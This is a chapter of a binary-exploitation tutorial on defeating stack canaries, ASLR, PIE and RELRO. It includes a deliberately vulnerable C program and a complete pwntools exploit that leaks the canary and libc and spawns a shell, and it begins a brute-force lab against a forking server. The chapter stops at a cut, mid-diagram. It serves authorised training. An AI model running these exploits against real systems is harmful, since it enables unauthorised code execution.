




This is Chapter 4 of the Binary Exploitation notebook. Chapters 2 and 3 assumed a friendly target: a binary with an executable stack, no stack canary, no address randomisation, and a fixed load address you could read straight out of the ELF. Real binaries are not like that. Since roughly the mid-2000s, every mainstream compiler and operating system ships a stack of *exploit mitigations* — stack canaries, non-executable memory (NX/DEP, covered in Chapter 3), Address Space Layout Randomisation (ASLR), Position-Independent Executables (PIE), and RELRO. None of these fix the underlying memory-corruption bug. Each of them raises the cost of turning that bug into a working exploit, and each of them can be defeated with the right primitive.

This chapter is about the *cost model*. For every mitigation we ask three questions: what exactly does it protect, what does an attacker need in order to bypass it, and how do you obtain that thing from a real bug. The recurring answer is an **information leak** — a way to read one secret value out of the target's address space (a canary, a code pointer, a libc pointer). Once you internalise "mitigation X is defeated by leak primitive Y", the whole modern exploitation workflow snaps into focus: find a bug that leaks, use it to defeat ASLR/canary, then find (or reuse) a bug that corrupts control flow, and hand off to the ROP chain from Chapter 3.

Everything here targets binaries you own or are explicitly authorised to test. Demonstrating that a crash is *exploitable despite mitigations* is exactly the work a vulnerability researcher does to prove real-world severity and get a bug prioritised and fixed.

---

## Part 1: The Mitigation Stack at a Glance

Before touching any single mitigation it helps to see the whole board. A modern Linux exploit has to pass through several independent checks, and each was designed to break a *different* stage of the classic stack-smash from Chapter 2.

The classic exploit did four things: (1) overflow a stack buffer, (2) overwrite the saved return address, (3) point it at attacker-controlled shellcode on the stack, (4) return and execute. Each mitigation attacks one of those steps.

| Mitigation | Breaks which step | Core idea | What defeats it |
|---|---|---|---|
| **Stack canary** (SSP) | Overwriting saved RIP unnoticed | Random guard value between locals and saved RIP, checked before `ret` | Leak it, brute-force it (fork), or corrupt a pointer *before* reaching it |
| **NX / DEP** | Executing shellcode on the stack | Stack/heap pages marked non-executable | ROP / ret2libc (Chapter 3) — reuse existing executable code |
| **ASLR** | Knowing where shellcode/libc is | Randomise base of stack, heap, mmap/libc per run | Info leak of any address in the target region |
| **PIE** | Knowing where the *binary's own* code is | Randomise the executable's load base too | Leak a code pointer; or partial-overwrite fixed low bits |
| **RELRO** | Overwriting GOT entries | Map GOT read-only after startup (Full) | Attack other writable targets; or hit before relocation (Partial) |

The critical structural insight: **these mitigations are AND-composed, but their weaknesses are shared.** A single good info-leak primitive frequently defeats canary *and* ASLR *and* PIE at once, because leaking a stack frame can spill the canary, a saved libc return address, and a saved PIE return address in one read. That is why so much of modern exploitation is really about *leak engineering*, and why "info leak" is the single most valuable bug class in binary exploitation.



**How to see what's on:** the single most important reconnaissance command in this whole chapter is `checksec`, shipped with pwntools and also as a standalone script. It parses the ELF header and dynamic section to tell you which mitigations are compiled in.

```bash
$ checksec --file=./target
[*] '/home/kali/pwn/target'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Stripped: No
```

Read that top to bottom as a to-do list: *Partial RELRO* (GOT overwrite is on the table), *Canary found* (I need a canary leak or a fork brute), *NX enabled* (no stack shellcode — ROP), *PIE enabled* (I need a code-pointer leak before I can use any address inside the binary). We will earn each of those primitives in turn.

---

## Part 2: Stack Canaries — What They Really Are

A **stack canary** (also called a *stack cookie* or *stack protector*, and historically *StackGuard*) is a known random value the compiler places on the stack **between the local variables and the saved frame pointer / return address**. The name comes from the canaries coal miners carried underground: if the bird died, you knew the air was bad before you did. If the canary value has changed by the time a function returns, the runtime knows a linear stack overflow has run over the saved return address, and it aborts the process *before* executing the (now attacker-controlled) `ret`.

The feature is implemented by the compiler's **Stack Smashing Protector (SSP)**, enabled by GCC/Clang's `-fstack-protector` family:

- `-fstack-protector` — protect functions that call `alloca` or have a `char` buffer ≥ 8 bytes.
- `-fstack-protector-strong` — the modern default on most distros: protect any function with a local array of *any* type/size, or that takes the address of a local. Much broader coverage.
- `-fstack-protector-all` — every function, at a performance cost.
- `-fno-stack-protector` — off (what Chapters 2–3 assumed).

### The canary's memory layout

Consider a function with a `char buf[64]`. With SSP on, the stack frame looks like this (higher addresses at the bottom, stack grows up the page toward lower addresses):

```
        higher addresses
+---------------------------+
|  saved return address     |   <- overwrite target
+---------------------------+
|  saved RBP (frame ptr)    |
+---------------------------+
|  STACK CANARY (8 bytes)   |   <- must survive intact
+---------------------------+
|  char buf[64]             |   <- overflow starts here
|  ...                      |
+---------------------------+
        lower addresses
```

A linear overflow of `buf` that reaches the saved return address **must** pass through the canary first. That is the whole trick: you cannot linearly overwrite RIP without also overwriting the canary, and an overwritten canary is detected.

### The prologue and epilogue instrumentation

The compiler emits two pieces of code. In the prologue it loads the master canary and stores a copy into the frame; in the epilogue it compares the frame copy against the master and calls `__stack_chk_fail` on mismatch. On x86-64 Linux the master canary lives in **thread-local storage at `fs:0x28`** (the `%fs` segment base points at the thread control block; offset `0x28` is the stack-guard slot).

```asm
; ---- prologue ----
mov    rax, qword ptr fs:[0x28]   ; load master canary from TLS
mov    qword ptr [rbp-0x8], rax   ; store copy just below saved RBP
xor    eax, eax                   ; don't leave the canary in a register
; ... function body ...
; ---- epilogue ----
mov    rax, qword ptr [rbp-0x8]   ; reload frame copy
sub    rax, qword ptr fs:[0x28]   ; compare against master (xor on some builds)
jne    .fail                      ; mismatch -> abort
leave
ret
.fail:
call   __stack_chk_fail@plt       ; prints "*** stack smashing detected ***", abort()
```

When the check fails you see the hallmark message on stderr and the process dies with `SIGABRT`:

```
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

### The terminator-byte trick

Look closely at a real canary value and you'll notice something deliberate: **the least-significant byte is always `0x00`**. glibc generates the canary so its low byte is a NUL. Example: `0x8fB3a2c14d76e900`. Why sacrifice a byte of entropy? Because the NUL acts as a *string terminator*. Most linear overflows come from string functions (`strcpy`, `sprintf`, `gets`, `read` into a `%s`), and a leading NUL byte stops naive string-based leaks from printing the rest of the canary, and stops a `strcpy`-style overflow from cleanly reproducing the canary if you don't already know it. It costs one byte of entropy (leaving 7 random bytes = 56 bits on 64-bit) but buys real protection against string-primitive attacks.

**Practical consequence for the attacker:** when you leak a canary, the value you recover will end in `00`. When you *rebuild* the stack during an overflow, you must write that exact `00` low byte back. And when you brute-force a canary byte-by-byte (Part 8), the first byte is known for free — it's `0x00`.

| Property | Value on x86-64 glibc |
|---|---|
| Size | 8 bytes |
| Storage of master | TLS at `fs:0x28` |
| Low byte | Always `0x00` (terminator) |
| Effective entropy | 56 bits (7 random bytes) |
| Per what? | Per **thread** (a fork inherits the parent's canary — key for brute force) |
| Check failure | `__stack_chk_fail` → `abort()` |

That "per thread, inherited across `fork()`" property is the single most important weakness and we return to it in Part 8.

---

## Part 3: Defeating the Canary — Leak, Skip, or Brute

There are exactly three ways past a canary, and every real exploit uses one of them.

### 3.1 Leak the canary, then write it back

If you have a *read* primitive — a format string (`%p`/`%s`, the whole of Chapter 5), an out-of-bounds array read, an uninitialised-memory print, a `printf` of user data — you read the canary out of the frame, then perform your overflow and write the exact same canary value into the canary slot. The check passes because the value is unchanged, and your overwritten return address downstream takes effect. This is the cleanest and most common method and is the subject of Lab A.

The key requirement is that the read and the write hit the *same* frame's canary, or two frames that share the same per-thread canary (which they do — the master is process/thread-global, so any leaked canary is valid everywhere in that thread).

### 3.2 Skip the canary entirely

The canary only defends against **linear, contiguous** overwrites that pass through the canary slot. Bugs that write to the saved return address *without* crossing the canary are not caught at all:

- **Out-of-bounds index write:** `array[user_index] = value` with an unchecked `user_index` lets you write past the canary directly to RIP (or anywhere), never touching the canary byte.
- **Pointer corruption / write-what-where:** if you corrupt a pointer that is later dereferenced for a write, you choose the target — jump straight over the canary.
- **Overwrite of a local pointer or function pointer that is used *before* the epilogue check** — you hijack control flow inside the function, so the canary check never runs.
- **Structured/partial overflow into an adjacent object** (e.g., a length field or a vtable pointer) that grants control before return.

The lesson: a canary is specifically an anti-*linear-stack-smash* measure. Non-linear primitives ignore it.

### 3.3 Brute-force the canary (forking servers only)

Because `fork()` **copies the parent's memory** including the master canary, every child of a pre-forking server has the *same* canary as its siblings. If a crash in a child does not take down the parent (the parent just forks another worker), you can guess the canary **one byte at a time**: overwrite the first canary byte with a guess; if the child doesn't crash, the byte was right; move to the next. This turns a 56-bit secret into at most 7 × 256 = 1,792 guesses instead of 2^56. This is Lab B.



---

## Part 4: ASLR — Address Space Layout Randomisation

**ASLR** randomises the base addresses of memory regions each time a program runs, so that hardcoded addresses (of libc functions, of the stack, of the heap) are wrong from run to run. It is an *operating-system* feature (the kernel picks the random bases at `execve`/`mmap` time), in contrast to the canary and PIE which are *compiler/linker* features. On Linux ASLR is controlled globally by a sysctl:

```bash
$ cat /proc/sys/kernel/randomize_va_space
2
```

| Value | Meaning |
|---|---|
| `0` | ASLR **off** — everything at fixed addresses (what Chapters 2–3 assumed; also what you set locally while developing an exploit) |
| `1` | Conservative — randomise stack, mmap (libc), VDSO, but **not** the brk heap |
| `2` | Full — also randomise the brk heap (the default on every modern distro) |

Disable it locally *only* on your own machine while building an exploit, then re-enable and confirm the exploit still works with a leak:

```bash
# temporarily, for local development of an exploit
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
# per-process, without touching global state:
$ setarch $(uname -m) -R ./target      # -R disables randomisation for this run
```

### What ASLR actually randomises — and how much

The crucial, under-appreciated detail is that **ASLR does not randomise every bit of an address**. Memory is mapped in pages (4 KB = 12 bits), so the low 12 bits of any address are *never* randomised — they are fixed by the offset within the page/section. And the number of *randomised* bits is limited by the kernel's entropy settings. On x86-64 Linux, typical entropy is:

| Region | Randomised bits (x86-64) | Consequence |
|---|---|---|
| mmap base (libc, shared libs) | ~28 bits | libc base changes each run; low 12 bits (page offset) fixed |
| Stack | ~30 bits | Stack base moves; offsets within a frame stable |
| PIE executable base | ~28 bits | Binary's own code moves (see Part 5) |
| brk heap | ~13–28 bits | Heap base moves under `randomize_va_space=2` |

Two exploitation-relevant facts fall out of this:

1. **The low 12 bits are constant.** If you know a function is at libc-base + `0x00000000000e3f00`, the last three nibbles (`f00`) are invariant across runs. This enables **partial overwrites** (Part 6): overwrite only the low 1–2 bytes of a saved pointer to redirect it a short, *known* distance within the same page-aligned structure, with **zero** brute force for the bottom byte and only 4 bits of brute for the second.
2. **ASLR is defeated by a single leak.** Because every function in libc sits at a *fixed offset* from the libc base, leaking one libc address (any GOT entry, any saved libc return address on the stack) lets you compute the base — `libc_base = leaked_addr - known_offset` — and therefore every other libc address. This is the entire reason info leaks are king.

```mermaid
flowchart LR
    A[Leak ONE libc address<br/>e.g. puts@GOT] --> B[libc_base = leaked - offset_of_puts]
    B --> C[system = libc_base + offset_system]
    B --> D[/bin/sh = libc_base + offset_binsh]
    C --> E[Build ret2libc / ROP]
    D --> E
```

### Finding the offsets

To turn a leaked address into a base you need the offsets *for the exact libc the target uses*. Never guess — extract them from the real library file:

```bash
# offset of a symbol in the target's libc
$ readelf -s ./libc.so.6 | grep ' puts@\| system@\|__libc_start_main'
  423: 0000000000080e50   500 FUNC  GLOBAL DEFAULT  15 puts@@GLIBC_2.2.5
  1451: 0000000000050d70   45 FUNC  GLOBAL DEFAULT  15 system@@GLIBC_2.2.5

# a "/bin/sh" string is already inside libc:
$ strings -a -t x ./libc.so.6 | grep '/bin/sh'
 1d8698 /bin/sh
```

pwntools makes this trivial and is what you'll actually use:

```python
from pwn import *
libc = ELF('./libc.so.6')
libc.address = leaked_puts - libc.symbols['puts']   # rebase the whole ELF
log.info('libc base: %#x', libc.address)
system  = libc.symbols['system']
bin_sh  = next(libc.search(b'/bin/sh\x00'))
```

**Matching the libc version** is essential: offsets differ between glibc builds. If you only have a leaked address and the challenge's libc version is unknown, [libc.rip](https://libc.rip) / the `libc-database` project reverse-looks-up the build from a couple of leaked lower-3-nibble values. We use that in Lab A.

---

## Part 5: PIE — Position-Independent Executables

ASLR randomises libraries and stack/heap, but historically the **main executable** was still loaded at a fixed base (`0x400000` on x86-64). That meant even with ASLR you could hardcode addresses of the program's *own* functions, GOT, and ROP gadgets. **PIE** closes that gap by compiling the executable itself as position-independent code (like a shared library) so the loader can place its base at a randomised address too.

- Built with `-fPIE -pie` (the default on most modern distros; `-no-pie` disables it).
- With PIE **off**, the binary loads at `0x400000` and every internal address is known from the ELF — `objdump`, `ROPgadget`, and `elf.symbols[...]` give you absolute addresses directly.
- With PIE **on**, `elf.symbols['main']` is an *offset*, not an address, until you learn the base.

### The two independent bases

This is the mental model that trips people up. A PIE + dynamically-linked binary with ASLR has **two independent random bases** you may need to defeat:

1. The **PIE base** — where the executable's own code, PLT, GOT, and any gadgets inside the binary live. Leaking a *code pointer that points into the binary* (a saved return address into `main`, a function pointer, a GOT entry that stores a PLT stub) gives you this.
2. The **libc base** — where libc's functions and gadgets and the `/bin/sh` string live. Leaking a *libc pointer* (a resolved GOT entry, a saved `__libc_start_main` return address) gives you this.

Leaking one does **not** give you the other; the kernel randomises them independently. A common real exploit leaks *both*: one leak to defeat PIE (so you can use the binary's PLT/gadgets), a second to defeat ASLR/libc (so you can call `system`).



### Confirming PIE and reading offsets

```bash
$ readelf -h ./target | grep Type
  Type:                              DYN (Position-Independent Executable file)   # PIE
# vs   EXEC (Executable file)  -> non-PIE, fixed 0x400000
```

In pwntools, after you leak a code pointer you rebase the ELF exactly like libc:

```python
elf = ELF('./target')
# suppose we leaked the saved return address into main:
elf.address = leaked_main_ret - elf.symbols['main']   # or minus the exact offset within main
log.info('PIE base: %#x', elf.address)
win = elf.symbols['win']          # now an absolute, correct address
pop_rdi = elf.address + 0x1234    # a gadget offset found by ROPgadget
```

---

## Part 6: Partial Overwrites — Beating ASLR Without a Leak

Recall from Part 4 that ASLR never randomises the low 12 bits (the page offset). This creates a beautiful, leak-free primitive: the **partial overwrite**.

Suppose the stack holds a saved return address pointing at `main+0x40` inside the PIE binary, and there is a `win()` function at `main-0x120` — i.e., only the **low two bytes** differ between "return to main" and "return to win". Because your overflow can write byte-by-byte from the low end, you can overwrite **just the low 1 or 2 bytes** of that saved return address, leaving the (unknown, randomised) high bytes untouched — they're already correct because they came from the program itself.

- The **lowest byte** you can overwrite with certainty: the page offset is not randomised, so if `win` and `main` share the same page-aligned high bits, one byte is deterministic.
- The **second byte** (bits 8–15) is partly randomised: on x86-64, the low 12 bits are fixed, so bits 12–15 (one nibble) are random. Overwriting two bytes therefore requires brute-forcing only **4 bits = 16 possibilities**, not 2^28.

This works identically against libc pointers (redirect a saved libc return a short distance to a `one_gadget`) and against PIE code pointers (redirect to a `win`/backdoor function). The technique is invaluable in CTF pwn where a `win()` function exists close to a leaked-but-not-printed return address.

```python
# Partial overwrite: keep high bytes, rewrite only low 2 bytes of saved RIP.
# offset = padding to reach saved return address
payload  = b'A' * offset
payload += p16(0x1234)          # only 2 bytes; high 6 bytes of saved RIP unchanged
# The 0x1234 low-two-bytes point at win(); top nibble of byte-2 may need a 1-in-16 retry.
```

**Caveat:** `p16` writes exactly two bytes but many read primitives append a NUL. If the function is `read(0, buf, n)` you control length precisely; if it's `gets`/`scanf("%s")` a NUL terminator may clobber the third byte — plan your primitive accordingly. Partial overwrites are why you always note the *distance* between your accidental leak target and your desired target, in bytes.

| Bytes overwritten | Bits you must brute (x86-64) | Attempts |
|---|---|---|
| 1 (low byte) | 0 (page offset fixed) | 1 (deterministic) if same page |
| 2 (low 2 bytes) | 4 (one randomised nibble) | up to 16 |
| 3 (low 3 bytes) | 12 | up to 4096 |

---

## Part 7: RELRO and the GOT — Why the Bar Keeps Rising

Dynamically-linked programs call library functions (`puts`, `printf`, `system`) indirectly through two tables:

- **PLT (Procedure Linkage Table):** a small stub per external function, the thing your code actually `call`s (`call puts@plt`).
- **GOT (Global Offset Table):** a table of pointers the PLT stubs read. On first call, the dynamic linker resolves the real libc address and writes it into the GOT slot (**lazy binding**); subsequent calls read the cached address.

Historically the GOT was **writable**, which made it the number-one target for control-flow hijack: overwrite `printf@GOT` with the address of `system`, and the next `printf(user)` becomes `system(user)`. **RELRO (Relocation Read-Only)** exists to close this.

| RELRO level | Build flag | GOT state | Attack impact |
|---|---|---|---|
| **No RELRO** | `-Wl,-z,norelro` | GOT writable, lazy binding | GOT overwrite trivial |
| **Partial RELRO** | default | Some sections RO, but **`.got.plt` still writable** (lazy binding) | GOT-entry overwrite still works |
| **Full RELRO** | `-Wl,-z,relro,-z,now` | Entire GOT resolved at startup then mapped **read-only** | GOT overwrite impossible — pick another target |

Full RELRO forces **eager binding** (all symbols resolved at load) and then `mprotect`s the GOT read-only. The cost is slower startup; the benefit is that the classic "overwrite a GOT entry" primitive is dead. Against Full RELRO you pivot to other writable function pointers: `__malloc_hook`/`__free_hook` (removed in glibc ≥ 2.34), the `exit` handlers / `__exit_funcs` (a `tls_dtors`/`rtld_lock` chain), `_IO_FILE` vtables (FSOP — file-stream-oriented programming), or you simply avoid needing a write-to-pointer at all and go straight to a stack ROP chain.

**Recon takeaway:** when `checksec` says *Partial RELRO*, a GOT overwrite is a legitimate strategy; when it says *Full RELRO*, cross it off and think stack ROP or FSOP.

---

## Part 8: Tooling — checksec, pwndbg, one_gadget, ropper

Before the labs, teach the tools each from scratch. (GDB/pwndbg was introduced in Chapter 1 and pwntools/ROPgadget in Chapters 2–3; here are the new ones plus the mitigation-relevant workflows.)

### checksec

**What it is:** a script that reads an ELF's header/dynamic section and reports the mitigations compiled in. Ships inside pwntools (`pwn checksec`) and as the standalone `checksec.sh`. **Why it exists:** so you don't reverse-engineer the prologue by hand to learn whether a canary is present. **Use it first, every time.**

```bash
$ pwn checksec ./target        # pwntools front-end
$ checksec --file=./target     # standalone
```

### one_gadget

**What it is:** a tool that scans a libc for **"magic gadgets"** — single addresses you can jump to that call `execve("/bin/sh", NULL, NULL)` directly, provided some register/stack constraints hold. **Why it exists:** sometimes you can control RIP and the libc base but *cannot* comfortably set up `system("/bin/sh")` with the right arguments (no `pop rdi`, or a cramped write). A one_gadget needs only that you land on it with the constraints satisfied. Install and run:

```bash
$ gem install one_gadget
$ one_gadget ./libc.so.6
0x50a37 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  ...
```

Each line is an offset (add libc base) and the *constraints* that must hold when you jump there. You pick the gadget whose constraints your bug can satisfy. Extremely handy in cramped ROP or when you only get a single controlled jump after a leak.

### ropper (alternative to ROPgadget)

**What it is:** a gadget finder like ROPgadget (Chapter 3), with a searchable console and semantic search. **Why mention it:** its `--search` and `search %` syntax and jmp/call-oriented modes sometimes surface gadgets ROPgadget's default output buries. Both are worth having.

```bash
$ ropper --file ./target --search 'pop rdi; ret'
0x0000000000401234: pop rdi; ret;
$ ropper --file ./libc.so.6 --search 'pop rsi; pop r15; ret'
```

### pwndbg helpers for mitigation work

Inside pwndbg (Chapter 1), these commands earn their keep for this chapter:

```text
pwndbg> canary          # print the current process's stack canary value
pwndbg> checksec        # mitigations of the debuggee
pwndbg> vmmap           # memory map w/ permissions & bases (find libc/PIE base live)
pwndbg> tls             # thread-local storage base (canary lives at fs:0x28)
pwndbg> got             # dump the GOT (see resolved vs unresolved entries)
pwndbg> telescope $rsp 40   # walk the stack, auto-annotating pointers (spot the canary/leaks)
```

`vmmap` during development (with ASLR off) tells you the exact libc/PIE base so you can compute the offsets your leak must recover. `canary` shows the value your exploit must reproduce.

---

## Part 9: Lab A — Leak the Canary, Then ret2libc (Canary + NX + PIE)

We now chain everything: a binary with **Canary + NX + PIE + Partial RELRO**, exactly what `checksec` showed in Part 1. The plan: use a format-string / read primitive to leak the canary *and* a libc address in one interaction, then overflow — writing the correct canary back — into a ret2libc that calls `system("/bin/sh")`.

### 9.1 The vulnerable program

```c
// vuln.c  —  compile: gcc -fstack-protector-strong -pie -fPIE -o vuln vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void setup(){ setvbuf(stdout,0,2,0); setvbuf(stdin,0,2,0); }

void vuln() {
    char buf[64];
    printf("leak> ");
    read(0, buf, 8);            // stage 1: we control a small read used with the leak
    printf(buf);                // FORMAT STRING BUG -> our leak primitive (Chapter 5)
    printf("\noverflow> ");
    read(0, buf, 200);          // stage 2: linear overflow, 200 > 64 -> smashes canary+RIP
}

int main(){ setup(); vuln(); return 0; }
```

`checksec`:

```
$ pwn checksec ./vuln
    Arch:   amd64-64-little
    RELRO:  Partial RELRO
    Stack:  Canary found
    NX:     NX enabled
    PIE:    PIE enabled
```

### 9.2 Find the format-string offsets for the leaks

The `printf(buf)` with attacker-controlled `buf` lets us read stack slots with `%N$p` (positional). We need two things: the canary (a stack slot ending in `00`) and a libc pointer (a saved `__libc_start_main+N` return address deeper on the stack). Probe interactively (ASLR off locally):

```bash
$ echo '%p %p %p %p %p %p %p %p' | ./vuln
leak> 0x7ffd... 0x40 0x7f...(libc) (nil) 0x1 0x...00(canary) 0x7ffd...(stack) 0x555...(pie)
```

By counting we find, say: the **canary at `%15$p`** (its value ends in `00`), a **libc return address at `%17$p`**, and a **PIE pointer at `%19$p`**. (Your offsets will differ — always re-derive.) We only need the canary + one libc leak for a ret2libc.

### 9.3 The exploit

```python
#!/usr/bin/env python3
from pwn import *

elf  = context.binary = ELF('./vuln')
libc = ELF('./libc.so.6')          # the target's libc
p = process('./vuln')              # or remote(host, port)

# ---- Stage 1: leak canary + a libc address via the format string ----
p.recvuntil(b'leak> ')
p.send(b'%15$p.%17$p')             # canary . libc-return-addr
p.recvuntil(b'')
line = p.recvline().strip()
canary_s, libc_s = line.split(b'.')
canary = int(canary_s, 16)
leak   = int(libc_s, 16)
log.success('canary = %#x', canary)
log.success('libc leak = %#x', leak)

# rebase libc: the leaked slot is __libc_start_call_main+offset; find that offset
# once (from the target libc) and subtract it.
libc.address = leak - 0x29d90       # <- offset of the leaked return site in THIS libc
log.info('libc base = %#x', libc.address)
assert libc.address & 0xfff == 0, "base not page-aligned -> wrong offset"

system = libc.symbols['system']
binsh  = next(libc.search(b'/bin/sh\x00'))
pop_rdi = libc.address + 0x2a3e5    # 'pop rdi; ret' found in libc via ropper
ret     = libc.address + 0x2a3e6    # a lone 'ret' for 16-byte stack alignment

# ---- Stage 2: overflow, writing the canary back, then ret2libc ----
offset_to_canary = 64 - 8           # buf[64], canary sits 8 below saved RBP; distance = 56
payload  = b'A' * 56                # fill buf up to the canary slot
payload += p64(canary)              # <-- put the REAL canary back so the check passes
payload += b'B' * 8                 # saved RBP (don't care)
payload += p64(ret)                 # movaps alignment fix before system
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)              # system("/bin/sh")

p.recvuntil(b'overflow> ')
p.send(payload)
p.interactive()                     # -> shell
```

Annotated run:

```
[+] Starting local process './vuln': pid 34012
[+] canary = 0x9f3b7c21d84e6a00      <- note trailing 00 (terminator byte)
[+] libc leak = 0x7f2c8b1a3d90
[*] libc base = 0x7f2c8b100000        <- page aligned: offset was correct
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
$ cat flag.txt
flag{canary_leaked_relro_partial_ret2libc}
```

**Why each mitigation fell:** the format string defeated *both* the canary (leaked it) and ASLR (leaked libc); NX was defeated by ret2libc (no shellcode, reuse `system`); PIE was irrelevant because we never needed the binary's own addresses — the whole ROP payload lived in libc. That last point is a common simplification: **if libc alone gives you `system`/`/bin/sh`/gadgets, you can ignore PIE entirely.**

---

## Part 10: Lab B — No Leak, Fork Server: Byte-by-Byte Brute Force

Now the harder scenario: a **forking server** with Canary + PIE + NX and **no read/leak primitive at all**. Because the parent `fork()`s each connection, every child shares the parent's canary *and* PIE base. We brute-force both, one byte at a time, using crash-vs-no-crash as an oracle.

### 10.1 The server

```c
// server.c — a classic pre-forking TCP server (skeleton)
// gcc -fstack-protector-strong -pie -fPIE -o server server.c
void handle(int fd){
    char buf[64];
    int n = read(fd, buf, 512);      // overflow: 512 into buf[64]
    write(fd, "ok\n", 3);
}
// main(): socket/bind/listen, then for(;;){ c=accept(); if(fork()==0){ handle(c); _exit(0);} }
```

Each connection → child → `handle` → overflow. If we overwrite the canary with a *wrong* byte, `__stack_chk_fail` aborts the child (connection drops without "ok"). If we guess *right*, execution proceeds normally and we see "ok". That difference is the oracle.

### 10.2 Byte-by-byte logic

```mermaid
sequenceDiagram
    participant X as Exploit
    participant S as Server(parent)
    participant C as forked child
    loop each unknown canary byte (1..7; byte0 = 0x00 known)
      X->>S: connect
      S->>C: fork()
      X->>C: padding + known_canary_bytes + guess_byte
      alt guess correct
